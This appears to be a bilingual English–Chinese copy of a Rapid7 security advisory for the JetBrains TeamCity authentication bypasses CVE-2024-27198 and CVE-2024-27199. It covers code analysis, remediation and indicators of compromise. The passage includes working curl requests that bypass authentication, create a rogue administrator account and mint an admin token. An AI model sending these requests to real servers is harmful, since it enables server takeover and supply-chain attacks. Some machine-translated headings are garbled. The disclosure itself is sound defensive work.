







# CVE-2024-27198 和 CVE-2024-27199：JetBrains TeamCity 多重身份验证绕过漏洞（已修复）

*Last updated at Tue, 05 Mar 2024 22:21:55 GMT  
最后更新时间 Tue，05 Mar 2024 22:21:55 GMT*

## Overview 概述

In February 2024, Rapid7’s vulnerability research team identified two new vulnerabilities affecting JetBrains TeamCity CI/CD server:  
2024 年 2 月，Rapid 7 的漏洞研究团队发现了两个影响 JetBrains TeamCity CI/CD服务器的新漏洞：

-   **CVE-2024-27198** is an authentication bypass vulnerability in the web component of TeamCity that arises from an alternative path issue ([CWE-288](https://cwe.mitre.org/data/definitions/288.html)) and has a CVSS base score of 9.8 (Critical).  
    CVE-2024-27198 是 TeamCity Web 组件中的一个身份验证绕过漏洞，由替代路径问题（CWE-288）引起，CVSS 基本得分为 9.8（严重）。
-   **CVE-2024-27199** is an authentication bypass vulnerability in the web component of TeamCity that arises from a path traversal issue ([CWE-22](https://cwe.mitre.org/data/definitions/22.html)) and has a CVSS base score of 7.3 (High).  
    CVE-2024-27199 是 TeamCity 的 Web 组件中的一个身份验证绕过漏洞，由路径遍历问题（CWE-22）引起，CVSS 基本得分为 7.3（高）。

On March 4 (see note), Rapid7 noted that JetBrains [released a fixed version](https://blog.jetbrains.com/teamcity/2024/03/teamcity-2023-11-4-is-out/) of TeamCity without notifying Rapid7 that fixes had been implemented and were generally available. When Rapid7 contacted JetBrains about their uncoordinated vulnerability disclosure, JetBrains [published an advisory](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/) on the vulnerabilities without responding to Rapid7 on the disclosure timeline. JetBrains later responded to indicate that CVEs had been published.  
3 月 4 日，Rapid 7 指出，JetBrains 发布了 TeamCity 的修复版本，但没有通知 Rapid 7 修复程序已经实现并普遍可用。当 Rapid 7 联系 JetBrains 关于他们不协调的漏洞披露时，JetBrains 发布了关于漏洞的建议，但没有在披露时间轴上回复 Rapid 7。JetBrains 后来回应说，CVE 已经发布。

These issues were discovered by Stephen Fewer, Principal Security Researcher at Rapid7, and are being disclosed in accordance with [Rapid7's vulnerability disclosure policy](https://www.rapid7.com/security/disclosure/).  
这些问题是由 Rapid 7 首席安全研究员 Stephen Fewer 发现的，并根据 Rapid 7 的漏洞披露政策进行披露。

***Note:** The JetBrains release blog for 2023.11.4 appears to display different publication dates based on the time zone of the reader. Some readers see that it was released March 3, while others see March 4. We've modified our language above to note that Rapid7 saw the release blog on March 4, regardless of what time it was released.  
注意：JetBrains 2023.11.4 的发布博客似乎根据读者的时区显示不同的发布日期。一些读者看到它是 3 月 3 日发布的，而另一些人看到 3 月 4 日。我们已经修改了上面的语言，以说明 Rapid 7 在 3 月 4 日看到了发布博客，无论它是什么时候发布的。*

## Impact 影响

Both vulnerabilities are authentication bypass vulnerabilities, the most severe of which, CVE-2024-27198, allows for a complete compromise of a vulnerable TeamCity server by a remote unauthenticated attacker, including unauthenticated RCE, as demonstrated via our exploit:  
这两个漏洞都是身份验证绕过漏洞，其中最严重的漏洞是 CVE-2024-27198，它允许远程未经身份验证的攻击者完全破坏易受攻击的 TeamCity 服务器，包括未经身份验证的 RCE，正如我们的漏洞利用所展示的那样：  


Compromising a TeamCity server allows an attacker full control over all TeamCity projects, builds, agents and artifacts, and as such is a suitable vector to position an attacker to perform a supply chain attack.  
破坏 TeamCity 服务器允许攻击者完全控制所有 TeamCity 项目，构建，代理和工件，因此是一个合适的载体来定位攻击者执行供应链攻击。

The second vulnerability, CVE-2024-27199, allows for a limited amount of information disclosure and a limited amount of system modification, including the ability for an unauthenticated attacker to replace the HTTPS certificate in a vulnerable TeamCity server with a certificate of the attacker's choosing.  
第二个漏洞 CVE-2024-27199 允许有限数量的信息泄露和有限数量的系统修改，包括未经身份验证的攻击者能够将易受攻击的 TeamCity 服务器中的 HTTPS 证书替换为攻击者选择的证书。

## Remediation 整治

On March 3, 2024, JetBrains released TeamCity 2023.11.4 which remediates both CVE-2024-27198 and CVE-2024-27199. Both of these vulnerabilities affect all versions of TeamCity prior to 2023.11.4.  
2024 年 3 月 3 日，JetBrains 发布了 TeamCity 2023.11.4，修复了 CVE-2024-27198 和 CVE-2024-27199。这两个漏洞影响 TeamCity 2023.11.4 之前的所有版本。

For more details on how to upgrade, please read the [JetBrains release blog](https://blog.jetbrains.com/teamcity/2024/03/teamcity-2023-11-4-is-out/). Rapid7 recommends that TeamCity customers update their servers immediately, without waiting for a regular patch cycle to occur. We have included sample indicators of compromise (IOCs) along with vulnerability details below.  
有关如何升级的更多详细信息，请阅读 JetBrains 发布博客。Rapid 7 建议 TeamCity 客户立即更新其服务器，而无需等待定期的补丁周期。我们在下面提供了示例性的危害指标（IOC）沿着漏洞详细信息。

## Analysis 分析

### CVE-2024-27198 电话：+86-21 -27198

#### Overview 概述

TeamCity exposes a web server over HTTP port 8111 by default (and can optionally be configured to run over HTTPS). An attacker can craft a URL such that all authentication checks are avoided, allowing endpoints that are intended to be authenticated to be accessed directly by an unauthenticated attacker. A remote unauthenticated attacker can leverage this to take complete control of a vulnerable TeamCity server.  
TeamCity 默认通过 HTTP 端口 8111 公开 Web 服务器（并且可以选择配置为通过 HTTPS 运行）。攻击者可以手工创建一个 URL，以避免所有身份验证检查，从而允许未经身份验证的攻击者直接访问要进行身份验证的端点。未经身份验证的远程攻击者可以利用此漏洞完全控制易受攻击的 TeamCity 服务器。

#### Analysis 分析

The vulnerability lies in how the `jetbrains.buildServer.controllers.BaseController` class handles certain requests. This class is implemented in the `web-openapi.jar` library. We can see below, when a request is being serviced by the `handleRequestInternal` method in the `BaseController` class, if the request is not being redirected (i.e. the handler has not issued an HTTP 302 redirect), then the `updateViewIfRequestHasJspParameter` method will be called.  
该漏洞存在于 `jetbrains.buildServer.controllers.BaseController` 类处理某些请求的方式中。这个类在 `web-openapi.jar` 库中实现。我们可以在下面看到，当一个请求被 `BaseController` 类中的 `handleRequestInternal` 方法服务时，如果请求没有被重定向（即处理程序没有发出 HTTP 302 重定向），那么将调用 `updateViewIfRequestHasJspParameter` 方法。

```java
public abstract class BaseController extends AbstractController {
    
    // ...snip...
    
    public final ModelAndView handleRequestInternal(HttpServletRequest request, HttpServletResponse response) throws Exception {
        try {
            ModelAndView modelAndView = this.doHandle(request, response);
            if (modelAndView != null) {
                if (modelAndView.getView() instanceof RedirectView) {
                    modelAndView.getModel().clear();
                } else {
                    this.updateViewIfRequestHasJspParameter(request, modelAndView);
                }
            }
            // ...snip...
```

In the `updateViewIfRequestHasJspParameter` method listed below, we can see the variable `isControllerRequestWithViewName` will be set to true if both the current `modelAndView` has a name, and the servlet path of the current request does not end in `.jsp`.  
在下面列出的 `updateViewIfRequestHasJspParameter` 方法中，我们可以看到，如果当前的 `modelAndView` 有一个名称，并且当前请求的 servlet 路径不以 `.jsp` 结束，则变量 `isControllerRequestWithViewName` 将被设置为 true。

We can satisfy this by requesting a URI from the server that will generate an HTTP 404 response. Such a request will generate a servlet path of `/404.html`. We can note that this ends in `.html` and not `.jsp`, so the `isControllerRequestWithViewName` will be true.  
我们可以通过从服务器请求一个 URI 来满足这一点，该 URI 将生成 HTTP 404 响应。这样的请求将生成一个 servlet 路径 `/404.html` 。我们可以注意到，这以 `.html` 而不是 `.jsp` 结束，所以 `isControllerRequestWithViewName` 将为真。

Next we can see the method `getJspFromRequest` will be called, and the result of this call will be passed to the Java Spring frameworks `ModelAndView.setViewName` method. The result of doing this allows the attacker to change the URL being handled by the `DispatcherServlet`, thus allowing an attacker to call an arbitrary endpoint if they can control the contents of the `jspFromRequest` variable.  
接下来我们可以看到方法 `getJspFromRequest` 将被调用，并且此调用的结果将被传递给 Java Spring 框架 `ModelAndView.setViewName` 方法。这样做的结果允许攻击者更改由 `DispatcherServlet` 处理的 URL，从而允许攻击者调用任意端点，如果他们可以控制 `jspFromRequest` 变量的内容。

```java
private void updateViewIfRequestHasJspParameter(@NotNull HttpServletRequest request, @NotNull ModelAndView modelAndView) {

    boolean isControllerRequestWithViewName = modelAndView.getViewName() != null && !request.getServletPath().endsWith(".jsp");
        
    String jspFromRequest = this.getJspFromRequest(request);
        
    if (isControllerRequestWithViewName && StringUtil.isNotEmpty(jspFromRequest) && !modelAndView.getViewName().equals(jspFromRequest)) {
        modelAndView.setViewName(jspFromRequest);
    }
}
```

To understand how an attacker can specify an arbitrary endpoint, we can inspect the `getJspFromRequest` method below.  
要了解攻击者如何指定任意端点，我们可以检查下面的 `getJspFromRequest` 方法。

This method will retrieve the string value of an HTTP parameter named `jsp` from the current request. This string value will be tested to ensure it both ends with `.jsp` and does not contain the restricted path segment `admin/`.  
此方法将从当前请求中检索名为 `jsp` 的 HTTP 参数的字符串值。将测试此字符串值，以确保它都以 `.jsp` 结尾，并且不包含受限路径段 `admin/` 。

```java
protected String getJspFromRequest(@NotNull HttpServletRequest request) {
    String jspFromRequest = request.getParameter("jsp");
        
    return jspFromRequest == null || jspFromRequest.endsWith(".jsp") && !jspFromRequest.contains("admin/") ? jspFromRequest : null;
}
```

#### Triggering the vulnerability  
触发漏洞

To see how to leverage this vulnerability, we can target an example endpoint. The `/app/rest/server` endpoint will return the current server version information. If we directly request this endpoint, the request will fail as the request is unauthenticated.  
要了解如何利用此漏洞，我们可以以示例端点为目标。 `/app/rest/server` 端点将返回当前服务器版本信息。如果我们直接请求此端点，则请求将失败，因为请求未经身份验证。

```makefile
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/app/rest/server
HTTP/1.1 401
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Cache-Control: no-store
Content-Type: text/plain;charset=UTF-8
Transfer-Encoding: chunked
Date: Wed, 14 Feb 2024 17:20:05 GMT

Authentication required
To login manually go to "/login.html" page
```

To leverage this vulnerability to successfully call the authenticated endpoint `/app/rest/server`, an unauthenticated attacker must satisfy the following three requirements during an HTTP(S) request:  
要利用此漏洞成功调用已验证的端点 `/app/rest/server` ，未经验证的攻击者必须在 HTTP（S）请求期间满足以下三个要求：

-   Request an unauthenticated resource that generates a 404 response. This can be achieved by requesting a non existent resource, e.g.:  
    请求生成 404 响应的未经身份验证的资源。这可以通过请求不存在的资源来实现，例如：
    -   `/hax`
-   Pass an HTTP query parameter named jsp containing the value of an authenticated URI path. This can be achieved by appending an HTTP query string, e.g.:  
    传递一个名为 jsp 的 HTTP 查询参数，其中包含一个经过身份验证的 URI 路径的值。这可以通过附加一个 HTTP 查询字符串来实现，例如：
    -   `?jsp=/app/rest/server`
-   Ensure the arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment, e.g.:  
    确保任意 URI 路径以。jsp 结尾。这可以通过附加 HTTP 路径参数段来实现，例如：
    -   `;.jsp`

Combining the above requirements, the attacker’s URI path becomes:  
结合上述要求，攻击者的 URI 路径变为：

```bash
/hax?jsp=/app/rest/server;.jsp
```

By using the authentication bypass vulnerability, we can successfully call this authenticated endpoint with no authentication.  
通过使用身份验证绕过漏洞，我们可以在不进行身份验证的情况下成功调用此已验证端点。

```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/server;.jsp
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 794
Date: Wed, 14 Feb 2024 17:24:59 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><server version="2023.11.3 (build 147512)" versionMajor="2023" versionMinor="11" startTime="20240212T021131-0800" currentTime="20240214T092459-0800" buildNumber="147512" buildDate="20240129T000000-0800" internalId="cfb27466-d6d6-4bc8-a398-8b777182d653" role="main_node" webUrl="http://localhost:8111" artifactsUrl=""><projects href="/app/rest/projects"/><vcsRoots href="/app/rest/vcs-roots"/><builds href="/app/rest/builds"/><users href="/app/rest/users"/><userGroups href="/app/rest/userGroups"/><agents href="/app/rest/agents"/><buildQueue href="/app/rest/buildQueue"/><agentPools href="/app/rest/agentPools"/><investigations href="/app/rest/investigations"/><mutes href="/app/rest/mutes"/><nodes href="/app/rest/server/nodes"/></server>
```

If we attach a debugger, we can see the call to `ModelAndView.setViewName` occurring for the authenticated endpoint specified by the attacker in the `jspFromRequest` variable.  
如果我们附加一个调试器，我们可以看到对 `ModelAndView.setViewName` 的调用发生在攻击者在 `jspFromRequest` 变量中指定的已验证端点上。



#### Exploitation 剥削

An attacker can exploit this authentication bypass vulnerability in several ways to take control of a vulnerable TeamCity server, and by association, all projects, builds, agents and artifacts associated with the server.  
攻击者可以通过多种方式利用此身份验证绕过漏洞来控制易受攻击的 TeamCity 服务器，并通过关联控制与该服务器关联的所有项目、构建、代理和工件。

For example, an unauthenticated attacker can create a new administrator user with a password the attacker controls, by targeting the `/app/rest/users` REST API endpoint:  
例如，未经身份验证的攻击者可以通过攻击 `/app/rest/users` REST API 端点，使用攻击者控制的密码创建新的管理员用户：

```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/users;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"haxor\", \"password\": \"haxor\", \"email\": \"haxor\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 661
Date: Wed, 14 Feb 2024 17:33:32 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="haxor" id="18" email="haxor" href="/app/rest/users/id:18"><properties count="3" href="/app/rest/users/id:18/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="haxor"/><property name="teamcity.server.buildNumber" value="147512"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:18/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>
```

We can verify the malicious administrator user has been created by viewing the TeamCity users in the web interface:  
我们可以通过查看 Web 界面中的 TeamCity 用户来验证是否已创建恶意管理员用户：



Alternatively, an unauthenticated attacker can generate a new administrator access token with the following request:  
或者，未经身份验证的攻击者可以通过以下请求生成新的管理员访问令牌：

```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/users/id:1/tokens/HaxorToken;.jsp -X POST
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 241
Date: Wed, 14 Feb 2024 17:37:26 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="HaxorToken" creationTime="2024-02-14T09:37:26.726-08:00" value="eyJ0eXAiOiAiVENWMiJ9.RzR2cHVjTGRUN28yRWpiM0Z4R2xrZjZfTTdj.ZWNiMjJlYWMtMjJhZC00NzIwLWI4OTQtMzRkM2NkNzQ3NmFl"/>
```

We can verify the malicious access token has been created by viewing the TeamCity tokens in the web interface:  
我们可以通过查看 Web 界面中的 TeamCity 令牌来验证是否已创建恶意访问令牌：



By either creating a new administrator user account, or by generating an administrator access token, the attacker now has full control over the target TeamCity server.  
通过创建新的管理员用户帐户或生成管理员访问令牌，攻击者现在可以完全控制目标 TeamCity 服务器。

#### IOCs

By default, the TeamCity log files are located in `C:\TeamCity\logs\` on Windows and `/opt/TeamCity/logs/` on Linux.  
默认情况下，TeamCity 日志文件位于 Windows 上的 `C:\TeamCity\logs\` 和 Linux 上的 `/opt/TeamCity/logs/` 中。

##### Access Token Creation 访问令牌创建

Leveraging this vulnerability to access resources may leave an entry in the `teamcity-javaLogging` log file (e.g. `teamcity-javaLogging-2024-02-26.log`) similar to the following:  
利用此漏洞访问资源可能会在 `teamcity-javaLogging` 日志文件（例如 `teamcity-javaLogging-2024-02-26.log` ）中留下类似以下内容的条目：

```less
26-Feb-2024 07:11:12.794 WARNING [http-nio-8111-exec-1] com.sun.jersey.spi.container.servlet.WebComponent.filterFormParameters A servlet request, to the URI http://192.168.86.68:8111/app/rest/users/id:1/tokens/2vrflIqo;.jsp?jsp=/app/rest/users/id%3a1/tokens/2vrflIqo%3b.jsp, contains form parameters in the request body but the request body has been consumed by the servlet or a servlet filter accessing the request parameters. Only resource methods using @FormParam will work as expected. Resource methods consuming the request body by other means will not work as expected.
```

In the above example, the attacker leveraged the vulnerability to access the REST API and create a new administrator access token. In doing so, this log file now contains an entry detailing the URL as processed after the call to `ModelAndView.setViewName`. Note this logged URL is the rewritten URL and is not the same URL the attacker requested. We can see the URL contains the string `;.jsp` as well as a query parameter `jsp=` which is indicative of the vulnerability. Note, the attacker can include arbitrary characters before the `.jsp` part, e.g. `;XXX.jsp`, and there may be other query parameters present, and in any order, e.g. `foo=XXX&jsp=`. With this in mind, an example of a more complex logged malicious request is:  
